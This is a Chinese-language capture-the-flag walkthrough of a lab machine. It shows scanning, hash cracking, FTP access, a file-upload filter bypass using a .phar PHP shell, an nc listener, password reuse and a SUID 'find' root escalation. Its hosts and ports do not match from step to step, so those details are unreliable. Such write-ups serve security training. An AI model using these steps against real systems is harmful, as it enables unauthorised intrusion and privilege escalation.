# 服务扫描

## 使用 nmap 进行基础扫描

扫描所执行的命令，执行结果如下

```
sudo nmap -sn 10.10.10.0/24

sudo nmap --min-rate 10000 -p- 10.10.10.31   

sudo nmap -sC -sT -sV -p22,80 10.10.10.31 

sudo nmap --script=vuln -p22,80 10.10.10.31 
```



21 端口开放了 ftp 服务，在找到账号密码后可进行 登入 ，
靶机还开放了 smb 服务，可进行更详细的 smb 扫描，

查看 80 端口，是 Ubuntu 的默认界面



查看源代码发现串 md5





使用 hashcat 破解

```
sudo hashcat -m 0 -a 0 Hash/md5.txt /usr/share/wordlists/rockyou.txt
```





使用该字符串尝试进行 ftp 登入，因为没有密码，使用账号密码都使用 hostinger

```
ftp 10.10.10.6
```



binary 进入 二进制 模式

```
binary
```

获取文件

```
ls -liah

cd files

get hint.txt

exit
```



查看下载下来的 txt 文件



你需要跟随 'hostinger' 两个 base64 编码解密如下





进入给定的链接，将参数给上



根据提示访问 venom.box


登入 dora



点击齿轮，进入后台



找到文件上传页面，上传一个 php 漏洞



php 被过滤了，尝试不常见的 php 后缀，发现 phar 没被过滤

# Linux 提权

kali 建立 监听

```
sudo nc -lvnp 4444
```




查看 passwd ，寻找 拥有 bash 环境 的用户



切换成 hostinger 用户

```
su hostinger
```

在 /var/www/html/subrion/backup 下发现了一个密码



尝试切换为 nathan 用户

查看具有 s 位 的可执行文件

```
find / -perm -u=s -type f 2>/dev/null
```



使用 find 提权

```
sudo install -m =xs $(which find) .

./find . -exec /bin/bash -p \; -quit
```

